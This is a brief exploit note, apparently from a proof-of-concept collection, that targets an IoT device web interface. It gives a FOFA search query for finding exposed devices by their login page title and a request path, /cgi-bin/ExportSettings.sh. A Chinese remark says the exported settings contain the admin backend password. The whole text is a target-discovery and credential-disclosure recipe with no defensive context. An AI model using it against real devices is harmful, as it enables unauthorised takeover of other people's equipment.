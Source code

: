 <languages />

FOFA
----

    title="互联世界 物联未来-登录"

Payload
-------

    /cgi-bin/ExportSettings.sh

<translate> 其中password為登錄後台密碼 </translate>